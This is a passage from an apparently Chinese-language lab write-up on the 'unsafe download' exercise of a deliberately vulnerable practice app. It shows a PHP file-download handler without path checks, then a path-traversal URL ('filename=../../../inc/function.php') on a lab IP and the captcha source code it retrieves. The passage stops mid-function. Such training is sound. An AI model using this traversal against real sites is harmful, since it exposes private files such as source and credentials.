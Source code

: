 ```bash
//下载文件需要用到的头
ob_clean();//输出前一定要clean一下，否则图片打不开
Header("Content-type: application/octet-stream");
Header("Accept-Ranges: bytes");
Header("Accept-Length:".$file_size);
Header("Content-Disposition: attachment; filename=".basename($file_path));
$buffer=1024;
$file_count=0;
//向浏览器返回数据

//循环读取文件流,然后返回到浏览器feof确认是否到EOF
while(!feof($fp) && $file_count<$file_size){

    $file_con=fread($fp,$buffer);
    $file_count+=$buffer;

    echo $file_con;
}
fclose($fp);
?>
```
根据我们上面下载的代码进行测试我们可以看到的是里面有个inc/function.php文件，试着构造URL下载。`[http://10.1.1.7/vul/unsafedownload/execdownload.php?filename=../../../inc/function.php](http://10.1.1.7/vul/unsafedownload/execdownload.php?filename=../../../inc/function.php)`
```bash
<?php 
//验证码
function vcode($width=120,$height=40,$fontSize=30,$countElement=5,$countPixel=100,$countLine=4){
	header('Content-type:image/jpeg');
	$element=array('a','b','c','d','e','f','g','h','i','j','k','m','n','o','p','q','r','s','t','u','v','w','x','y','z','0','1','2','3','4','5','6','7','8','9');
	$string='';
	for ($i=0;$i<$countElement;$i++){
		$string.=$element[rand(0,count($element)-1)];
	}
	$img=imagecreatetruecolor($width, $height);
	$colorBg=imagecolorallocate($img,rand(200,255),rand(200,255),rand(200,255));
	$colorBorder=imagecolorallocate($img,rand(200,255),rand(200,255),rand(200,255));
	$colorString=imagecolorallocate($img,rand(10,100),rand(10,100),rand(10,100));
	imagefill($img,0,0,$colorBg);
	for($i=0;$i<$countPixel;$i++){
		imagesetpixel($img,rand(0,$width-1),rand(0,$height-1),imagecolorallocate($img,rand(100,200),rand(100,200),rand(100,200)));
	}
	for($i=0;$i<$countLine;$i++){
		imageline($img,rand(0,$width/2),rand(0,$height),rand($width/2,$width),rand(0,$height),imagecolorallocate($img,rand(100,200),rand(100,200),rand(100,200)));
	}
	//imagestring($img,5,0,0,'abcd',$colorString);
	imagettftext($img,$fontSize,rand(-5,5),rand(5,15),rand(30,35),$colorString,'../assets/fonts/ManyGifts.ttf',$string);
	imagejpeg($img);
	imagedestroy($img);
	return $string;
}

//之前的验证码有点问题，重新从网上搜了一个简单的验证码函数，是的，从网上搜的。
function vcodex(){
	
	$string = "abcdefghijklmnopqrstuvwxyz0123456789";
    	$str = "";
    	for($i=0;$i<6;$i++){
        	$pos = rand(0,35);
```